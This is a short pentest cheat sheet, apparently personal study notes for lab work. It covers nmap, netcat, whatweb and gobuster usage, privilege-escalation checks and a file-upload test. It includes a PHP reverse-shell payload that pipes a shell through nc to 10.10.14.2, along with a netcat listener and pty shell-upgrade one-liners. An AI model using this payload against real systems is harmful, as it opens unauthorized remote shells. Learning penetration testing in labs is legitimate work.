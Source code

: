 ```yaml
---
id: phd6lr0llsyy9qcbykd4b25
title: Pentest opening
desc: ''
updated: 1673250630437
created: 1673238697340
---
```


## Nmap:

### [Nmap man pages](https://linux.die.net/man/1/nmap)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`-sV`| scan against the default top 1000 ports
|`--open`| scan only open ports|
|`-oA <filename>`| output all scan formats|
|`-v`| verbose output|
|`-p-`| full TCP port scan (65535)|
|`--script=<script_name>`|script scan|
|<li>`banner`|A simple banner grabber which connects <br>to an open TCP port and prints out anything <br>sent by the listening service within five seconds|
|<li>`http-enum`|Enumerates directories used by <br>popular web applications and servers|


</td><td>

|Full command:|
|----------|
|`nmap -sV --open -oA <filename> <ip address>`|
|**Quick scan**|
|`nmap -p- --open -oA <filename> <ip address>`|
|**Long scan - recommended in second terminal**|

</td></tr> </table>

## NetCat

### [NetCat man pages](https://linux.die.net/man/1/nc)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`-n`| do not do any DNS or service lookups on any specified addresses, <br>hostnames and ports (don't resolve)|
|`-v`| verbose|
|`-l`| listen for incoming connection rather than initiate a connection|

</td><td>

|Full command:|
|----------|
|`nc -nv <ip address> <port>`|
|Confirm banner|
|`nc -nvlp 80`|Listening shell on port 80|

</td></tr> </table>

## whatweb 

### [whatweb man pages](https://manpages.org/whatweb)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|``| |
|``| |

</td><td>

|Full command:|
|----------|
|`whatweb <ip address>`|
|Identify web application in use|

</td></tr> </table>

## Gobuster

### [Gobuster man pages](https://linuxcommandlibrary.com/man/gobuster)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`dir`| use directory enumeration mode |
|`-u`| string, the target URL or Domain |
|`--wordlist` / `-w`| path to wordlist, recommended:<br> `/usr/share/wordlists/dirb/common.txt`  
|`-e`|print full URLs|

</td><td>

|Full command:|
|----------|
|`gobuster -e -u <ip address/URL> -w /usr/share/wordlists/dirb/common.txt`|
|Scan website, use common.txt wordlist and print the full <br>URLs of discovered paths|

</td></tr> </table>

## File upload testing

|File: | What it does/testing:|
|----------|
|[test_php.php](/assets/files/test_php.php)|Tests if php file can be uploaded to web app|

## Reverse shells:

```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?> 
``` 
## Upgrade reverse shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
OR
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege escalation checks

|File: | What it does/testing:|
|----------|
|[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)|Automated privilege escalation checks|

## Start Python HTTP server
```python
sudo python3 -m http.server 8080
```
